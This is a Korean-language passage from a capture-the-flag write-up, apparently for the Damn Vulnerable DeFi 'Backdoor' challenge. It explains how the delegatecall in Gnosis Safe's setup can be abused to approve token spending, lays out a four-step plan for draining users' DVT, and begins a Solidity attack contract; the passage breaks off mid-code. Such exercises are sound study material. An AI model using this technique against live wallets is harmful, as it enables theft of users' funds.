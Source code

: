 [https://github.com/safe-global/safe-contracts/blob/v1.3.0/contracts/base/Executor.sol](https://github.com/safe-global/safe-contracts/blob/v1.3.0/contracts/base/Executor.sol)

이 함수는 인자로 받은 to와 data를 기반으로 delegatecall을 호출하는 것을 확인할 수 있다.

이 때도 마찬가지로 data는 동적인 자료형이므로 초기 32바이트는 data의 크기를 의미하며 실질적인 data가 저장되어 있는 data+32바이트 위치부터 실행하는 것을 볼 수 있다.

따라서 공격 설계는 다음과 같이 이루어진다.

![delegatecall 공격설계.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/88c1fbd3-35b2-4d71-9fba-0c6e67382420/delegatecall_%EA%B3%B5%EA%B2%A9%EC%84%A4%EA%B3%84.png)

1. Attacker Contract에서 DVT 토큰을 approve 하는 함수를 만든다.
2. Setup 함수의 인자 중 to를 attacker의 컨트랙트, data를 DVT 토큰을 approve 하는 함수로 설정한다.
3. 각  Alice, Bob, Charlie, David에 대해 Proxy를 생성하게 하며 callback 함수로 각 Proxy에 10DVT가 저장되게 된다.
4. approve를 통해 이 DVT를 가져올 권한이 있으므로 컨트랙트로 가져온 후 attacker의 주소로 보낸다.

이를 위해 공격 컨트랙트를 작성했다.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "../DamnValuableToken.sol";

interface IGnosisSafeProxyFactory{
     function createProxyWithCallback(
        address _singleton,
        bytes memory initializer,
        uint256 saltNonce,
        IProxyCreationCallback callback
    ) external returns (GnosisSafeProxy proxy);
}

contract attackBackdoor_del{
    IGnosisSafeProxyFactory public factory;
    DamnValuableToken public immutable token; 
    address public masterCopy;
    IProxyCreationCallback public WalletRegistry;
    address public attacker;
    
    constructor(address _factory,address _mastercopy,address _token,address _WalletRegistry){
        factory= IGnosisSafeProxyFactory(_factory);
        masterCopy=_mastercopy;
        token=DamnValuableToken(_token);
        WalletRegistry=IProxyCreationCallback(_WalletRegistry);
        attacker=msg.sender;
    }

    function approve(address _addr) public {
        token.approve( _addr , 10 ether);
    }

    function exploit(address[] calldata users)public{
        for(uint256 i=0;i<users.length;i++){
            address[] memory target = new address[](1);
            target[0]=users[i];

            bytes memory code = abi.encodeWithSignature("approve(address)",address(this));

            bytes memory initializer = abi.encodeWithSignature("setup(address[],uint256,address,bytes,address,address,uint256,address)",
            target, // owner
            uint256(1), // threshold
            address(this), // delegatecall을 위한 주소 to
            code, // delegatecall을 할 data
```